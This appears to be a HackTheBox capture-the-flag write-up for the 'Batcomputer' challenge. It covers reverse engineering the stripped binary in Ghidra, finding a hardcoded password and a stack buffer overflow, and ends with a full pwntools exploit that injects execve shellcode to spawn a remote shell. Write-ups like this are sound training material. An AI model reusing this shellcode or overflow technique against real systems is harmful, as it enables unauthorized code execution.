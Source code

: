 `File` command on the binary shows that it is stripped, meaning there are no debug symbols present. A stripped binary makes it more difficult to reverse engineer and the main function will be harder to find.

```assembly
# file batcomputer | tr "," "\n" 
batcomputer: ELF 64-bit LSB pie executable
 x86-64
 version 1 (SYSV)
 dynamically linked
 interpreter /lib64/ld-linux-x86-64.so.2
 BuildID[sha1]=497abb33ba7b0370d501f173facc947759aa4e22
 for GNU/Linux 3.2.0
 stripped
```

```assembly
# checksec batcomputer           
[*] '/root/Downloads/hackthebox/challenge/batcomputer/batcomputer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
Because the binary is stripped we cant simply go to the main function. A simple work around is to look at the strings to see if we have encountered them before. In Ghidra, the strings window can be displayed by going to Window > Defined Strings. The screenshot above shows the string “Welcome to your Bat Computer.” selected. Following this string we land on what looks like our main function, FUN_001011ec (this may be different on your computer)




![image](https://user-images.githubusercontent.com/63084488/140466459-32617dda-1208-423c-aa91-4c77843b1d31.png)


In order to make analysis easier, the variables have been renamed to better reflect their purpose. One of these variables is `user_choice` whose value determines which message/prompt to show the user. On line 18 user_choice is compared with integer 1, if equal, the memory address of the nav_command buffer is printed using printf. If instead user_choice is 2, a password is requested and stored into user_pass using scanf. Line 24 clearly shows the password being compared to the string `b4tp@$$w0rd!`. If the passwords do not match the program terminates with `exit()`. If the passwords do match, however, the user is asked to provide their commands which are then stored within the nav_commands buffer, the same buffer whose address was printed in option 1. The string “Roger that!” is printed and the function loops back to the beginning. If user_choice are neither 1 nor 2, the binary prints a “Too bad” message and returns 0, finishing execution.

There is buffer overflow vulnerability within the `read call` on line 32. 0x89 (137) bytes are read from standard input into a buffer that is only allocated `76 bytes`. This gives us enough space to overwrite the return address. We have to figure out the number of bytes between the start of our navigation commands input and the return address. We can do this using GDB.



exploit
```python
#!/usr/bin/python3

from pwn import *

def main():
    context.log_level='DEBUG'
    context.update(arch='amd64', os='linux')
    p = remote('docker.hackthebox.eu',31132)
    log.info("lets solve")

    # leak address of my buffer
    p.recvuntil('>')
    p.sendline('1')

    leak_address = p.recvline().split()[-1]
    leak_address = int(leak_address,16)
    log.success(f'leak_address: {hex(leak_address)}')

    # send evil payload
    # payload + eip + shellcode

    padding = b'A' * 84

    shellcode  = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91"
    shellcode += b"\xd0\x8c\x97\xff\x48\xf7\xdb\x53"
    shellcode += b"\x54\x5f\x99\x52\x57\x54\x5e\xb0"
    shellcode += b"\x3b\x0f\x05"

    buffer = flat (
            padding,
            p64(leak_address + 84+8),
            shellcode
            )

    p.recvuntil('>')
    p.send('2')
    p.recv()
    p.sendline('b4tp@$$w0rd!')
    p.recvline()
    p.send(buffer)

    # trigger buffer overflow
    p.recvline()
    p.sendline('3')

    p.interactive()

if __name__ == '__main__':
    main()
```
